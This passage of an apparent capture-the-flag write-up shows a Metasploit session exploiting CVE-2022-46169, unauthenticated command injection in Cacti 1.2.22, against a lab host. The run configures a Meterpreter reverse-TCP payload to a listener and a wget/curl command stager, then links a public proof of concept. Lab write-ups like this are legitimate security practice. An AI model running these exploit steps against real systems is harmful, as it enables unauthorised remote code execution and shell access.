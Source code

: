        SSLCert                              no        Path to a custom SSL certificate (default is randomly generated)
       TARGETURI           /                yes       The base path to Cacti
       URIPATH                              no        The URI to use for this exploit (default is random)
       VHOST                                no        HTTP server virtual host
       X_FORWARDED_FOR_IP  127.0.0.1        yes       The IP to use in the X-Forwarded-For HTTP header. This should be resolvable to a hostname in the poller table.
    
    
       When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:
    
       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
       SRVPORT  8080             yes       The local port to listen on.
    
    
    Payload options (linux/x86/meterpreter/reverse_tcp):
    
       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST                   yes       The listen address (an interface may be specified)
       LPORT  4444             yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       1   Automatic (Linux Dropper)
    
    
    
    View the full module info with the info, or info -d command.
    
    msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > set rhosts http://10.10.11.211/
    rhosts => http://10.10.11.211/
    msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > set rport 80
    rport => 80
    msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > set lhost 10.10.14.84
    lhost => 10.10.14.84
    msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > exploit
    
    [*] Started reverse TCP handler on 10.10.14.84:4444 
    [*] Running automatic check ("set AutoCheck false" to disable)
    [+] The target appears to be vulnerable. The target is Cacti version 1.2.22
    [*] Trying to bruteforce an exploitable host_id and local_data_id by trying up to 500 combinations
    [*] Enumerating local_data_id values for host_id 1
    [+] Found exploitable local_data_id 6 for host_id 1
    [*] Command Stager progress - 100.00% done (1118/1118 bytes)
    [*] Exploit completed, but no session was created.
    

Nothing, but we have a lot of exploits to try. Next one!

[GitHub - sAsPeCt488/CVE-2022-46169: PoC for CVE-2022-46169 - Unauthenticated RCE on Cacti <= 1.2.22](https://github.com/sAsPeCt488/CVE-2022-46169?ref=secjuice.com)
